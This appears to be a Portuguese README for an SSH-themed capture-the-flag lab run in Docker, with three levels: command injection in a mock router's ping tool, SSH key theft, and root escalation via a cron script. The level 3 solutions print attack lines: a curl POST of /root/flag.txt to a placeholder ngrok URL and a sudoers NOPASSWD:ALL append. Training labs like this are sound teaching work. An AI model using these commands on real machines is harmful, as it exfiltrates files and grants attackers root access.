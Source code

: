 # ssh-game
Repositorio com objetivo de armazenar desafio de hacking relacionado a SSH

## nivel 1
Neste nível, o objetivo é que as pessoas possam navegar em uma interface que se pareça com um roteador.
Até encontrarem uma ferramenta de ping, que utiliza  command line para executar o teste.
Através disto, serão desafiadas a encontrar as chaves de conexão SSH do roteador, seguindo para o desafio nivel 2.
Terá uma flag no arquivo id_rsa, o mais importante para este momento.

## nivel 2
Este nível, é quase uma extensão, em termos de dificuldade, do nível 1.
A pessoa que obtiver as chaves, deverá trazê-las para sua máquina, modificar o nível de permissionamento deste (caso exista, se tratando de windows, isso não faz a menor diferença) e, depois, utilizar para conectar-se via SSH ao pseudo-roteador.
Após os passos descritos acima, é necessário montar o ambiente necessário para conexão via SSH, se for Windows, basta utilizar o Putty, se Linux, já existirá o ssh client nativo.
Ao obter a conexão, será exibido um BANNER de login (WIP), com algumas instruções e a próxima flag.

## nivel 3
Este nível, é o mais difícil e aqui está como finalização, após este o comprometimento da máquina se dá por completo.
A pessoa que estiver jogando, será convidada a ler o conteúdo do arquivo /root/flag.txt.
Para isso, será necessário realizar um privilege escalation através de uma tarefa cron.
Com isso, será demonstrado que, é possível ler uma tabela cron e saber se existem scripts desprotegidos e sendo executados como root.
Uma das possíveis soluções é, criar um arquivo `log.sh`, na home do temp_user para que faça um :
- cat /root/flag/txt > /home/temp_user/flag.txt && chmod 777 /home/temp_user/flag.txt 
- curl -X POST --data-binary @/root/flag.txt [URL_DO_NGROK] 
- echo "temp_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
Qualquer uma destas soluções habilita a leitura do arquivo /root/flag.txt
O arquivo log.sh pode ser descoberto através de um cat em /etc/crontab


## O que preciso instalar?
  * Docker
    Estes desafios estão FORTEMENTE acoplados a Docker e Docker Compose.
    O desafio 2 considera que existe Docker localmente para que possa iniciar sessões com experiência de SSH mas conectando-se ao tty e stdin dos containers executados.
  * Nodejs 12.x
  * SSH client

## Já instalei docker e docker-compose, o que faço agora?
Depois de ter instalado o que era necessário, basta rodar:
```bash
docker-compose build
docker-compose up
```

No caso de estar em ambiente Windows, o sock do docker é diferente, utilize:
```powershell
docker-compose -f docker-compose.windows.yml build
docker-compose -f docker-compose.windows.yml up
```

Os desafios estarão dispoíveis conforme descrito abaixo:
* nivel 1 - [http://localhost:4444](http://localhost:4444)
* nivel 2 - tcp://localhost:2222


## Informações complementares
Para rodar estes desafios, será necessário ter ngrok instalado e, após isto, remapear, no `docker-compose.yml`, portas de nível root (80 e 22).
Portas altas foram usadas para não ser necessário qualquer privilégio administrativo enquanto desenvolvimento.
A experiência completa se baseia em parecer com um roteador de verdade, portanto, é necessário utilizar portas que sejam também usadas por tal.
